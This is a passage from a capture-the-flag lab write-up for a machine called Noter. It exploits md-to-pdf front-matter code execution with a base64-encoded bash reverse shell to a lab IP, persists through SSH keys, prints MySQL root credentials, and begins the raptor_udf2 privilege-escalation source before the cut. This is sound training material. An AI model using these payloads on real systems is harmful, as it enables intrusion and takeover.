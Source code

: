 Looking at the [issue where the vulnerability was reported](https://github.com/simonhaenisch/md-to-pdf/issues/99) gives some proof-of-concept code:

```js
const { mdToPdf } = require('md-to-pdf');

var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';

(async () => {
	await mdToPdf({ content: payload }, { dest: './output.pdf' });
})();
```

It looks like we just need to pass `md-to-pdf` a markdown file with content like `---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE` and it will execute our code. So, our payload is `---js\n((require("child_process")).execSync("bash -i >& /dev/tcp/10.10.14.7/42626 0>&1"))\n---RCE`. I base64 encoded the payload to ensure it runs exactly as intended: `---js\n((require("child_process")).execSync("echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC43LzQyNjI2IDA+JjE= | base64 -d | bash"))\n---RCE`.

Start a listener with `nc -lvnp 42626` (or use pwncat with `pwncat-cs -lp 42626`). Start a web server with `python -m http.server 8000`. Create a file called `exploit.md` with the above payload contents. Then, in the Noter application, on the "Export Notes" page under the "Export directly from cloud" heading, enter `http://10.10.14.7:8000/exploit.md` into the URL field and click "Export". This should spawn a reverse shell.

Run `cat /home/svc/user.txt` to get the `user.txt` flag. We can copy our SSH key to the `svc` user's `authorized_keys` files and then authenticate over SSH for a full shell. Run `cat ~/.ssh/id_rsa.pub` on the attacker machine and paste the output into `/home/svc/.ssh/authorized_keys` on the target machine.

## Privilege Escalation

Earlier we got the root credentials for MySQL: `root:Nildogg36`. Since we are the root MySQL user, we can use a technique called ["privilege escalation via library"](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library) to get root on the box.

Following the [HackTricks instructions](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library), we need to download this [linux C code](https://www.exploit-db.com/exploits/1518) and compile it inside the linux vulnerable machine.

So, copy paste the following into a file called `raptor_udf2.c` on the target machine:

```c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
```